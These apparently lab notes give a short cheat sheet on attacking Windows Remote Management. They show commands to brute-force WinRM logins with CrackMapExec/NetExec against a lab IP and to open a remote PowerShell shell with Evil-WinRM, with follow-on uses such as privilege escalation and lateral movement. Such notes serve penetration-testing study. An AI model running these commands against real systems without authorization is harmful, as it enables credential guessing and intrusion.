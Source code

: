 

## Overview

- Microsoft’s implementation of **WS-Management Protocol** (SOAP/XML)
    
- Remote admin of Windows systems
    
- Interfaces with WMI, WBEM, DCOM
    
- Not enabled by default on Win10 (must be activated)
    
- Best practice: use certificates or secure auth
    

---

## Tools

### CrackMapExec (CME) / NetExec

Install:

```
sudo apt-get -y install crackmapexec
# or fork
sudo apt-get -y install netexec
```

Example (brute force / login check):

```
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

Successful login output:

```
WINRM  10.129.42.197  5985  NONE [+] None\user:password (Pwn3d!)
```

Help:

```
crackmapexec -h
crackmapexec winrm -h
```

---

### Evil-WinRM

Install:

```
sudo gem install evil-winrm
```

Usage:

```
evil-winrm -i <target-IP> -u <username> -p <password>
```

Example:

```
evil-winrm -i 10.129.42.197 -u user -p password
```

On success → interactive **PowerShell Remoting** shell:

```
*Evil-WinRM* PS C:\Users\user\Documents>
```

Use session for:

- Enumeration
    
- File upload/download
    
- Privilege escalation
    
- Lateral movement
    
